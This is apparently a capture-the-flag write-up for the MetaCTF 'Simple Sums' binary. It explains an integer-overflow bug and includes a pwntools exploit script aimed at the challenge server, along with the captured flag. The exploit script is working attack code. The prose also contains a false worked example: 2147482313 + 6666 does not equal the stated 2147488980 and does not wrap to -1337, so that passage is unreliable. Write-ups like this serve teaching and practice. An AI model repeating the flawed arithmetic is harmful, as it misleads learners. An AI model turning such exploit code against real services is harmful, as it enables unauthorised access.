 # Simple Sums - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SimpleSums.gif)

---

## Challenge Summary

The program prompts the user for two **positive integers**, sums them, and prints the result. If the sum equals `-1337`, it reveals the flag. Though negative input is rejected, the program fails to check for **integer overflow**. By supplying large values that wrap around and cause the sum to equal `-1337`, the attacker can **trigger the win condition** and access `flag.txt`.

## Binary Information

```bash
$ file simplesums
```

![Alt text](img/2.png)

```bash
$ pwn checksec simplesums
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Analyzing the program in CLion reveals:

- The program takes **two positive integers** as input using `scanf()`, rejecting zero or negative values.
- It calculates their sum and stores it in a signed 32-bit `int` named `sum`.
- The sum is printed as an unsigned integer (`%u`), which hides negative results due to overflow.
- The key vulnerability lies in the condition:

  ```c
  if (sum == -1337)
  ```

  This condition can only be true if an **integer overflow** occurs, wrapping a large positive sum into a negative value.

![Alt text](img/4.png)

- There is **no overflow check** after the addition. As a result, this logic can be bypassed by carefully chosen large inputs that produce `-1337` as a 32-bit signed result.
- If the condition is met, the program runs:

  ```c
  system("/bin/cat flag.txt");
  ```

  to print the flag.

![Alt text](img/5.png)

---

## Exploitation Strategy

The goal is to make the sum of two **positive integers** equal `-1337` using a **signed integer overflow**. Since `sum` is a signed `int`, large values can wrap around into the negative range.

To exploit this:

- Find two large positive integers `a` and `b` such that `a + b == -1337` (in 32-bit signed math).
- For example, use:

  ```
  a = 2147482313
  b = 6666
  ```

  Because `2147482313 + 6666 == 2147488980`, which wraps to `-1337`.

This bypasses the positivity checks and triggers the condition `if (sum == -1337)`, printing the flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template simplesums --host host5.metaproblems.com --port 5030
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'simplesums')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5030)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

# (unsigned int)(-1337) = 2^32 - 1337 = 4294965959
# a + b == 4294965959

a = b'2147482312'
b = b'2147483647'
io.sendline(a)
io.sendline(b)
io.recvuntil(b"Good job! Here's your flag:")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")



```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program reads two positive integers from the user and adds them, but it does not check for **integer overflow**. Since `sum` is a signed integer, users can input large values that **wrap around** to negative numbers. By supplying inputs that cause the sum to equal `-1337` due to overflow, an attacker can bypass the logic and trigger the hidden `flag.txt` read.

---

## Flag

```
MetaCTF{c0unting_beyond_infinity}
```
